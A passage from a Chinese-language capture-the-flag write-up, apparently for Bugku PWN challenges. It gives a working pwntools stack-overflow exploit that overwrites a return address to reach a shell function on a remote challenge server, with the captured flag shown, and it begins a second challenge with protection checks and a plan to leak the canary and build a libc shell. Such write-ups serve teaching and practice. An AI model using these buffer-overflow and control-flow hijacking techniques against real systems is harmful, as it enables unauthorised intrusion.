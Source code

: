 ```c
int get_shell_()
{
  puts("tql~tql~tql~tql~tql~tql~tql");
  puts("this is your flag!");
  return system("cat flag");
}
```

很明显只要我们劫持path到这里就完事了，十分容易

接下来直接给exp吧

```python
from pwn import *
#p = process("./pwn2")
p = remote('114.116.54.89 ', 10003)
getshell = 0x400751
payload = "a"*0x38+p64(getshell)
p.recvuntil('say something?\n') 
p.sendline(payload)
print p.recvall()
```

```shell
[*] Closed connection to 114.116.54.89  port 10003
oh,that's so boring!
tql~tql~tql~tql~tql~tql~tql
this is your flag!
flag{n0w_y0u_kn0w_the_Stack0verfl0w}
```

## PWN 3

先检查一下文件

```shell
[*] '/mnt/hgfs/share/Bugku/PWN/pwn3/read_note'
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    Canary found
    NX:       NX enabled
    PIE:      PIE enabled
```

防护全开，十分厉害的样子，直接拿IDA Pro打开反汇编一下，没有**system**，需要用**libc**构造**shell**，有**canary**保护，需要读**canary**的值，随机地址，需要读程序基址

```c
int __cdecl main(int argc, const char **argv, const char **envp)
{
  vul();
  return 0;
}
```
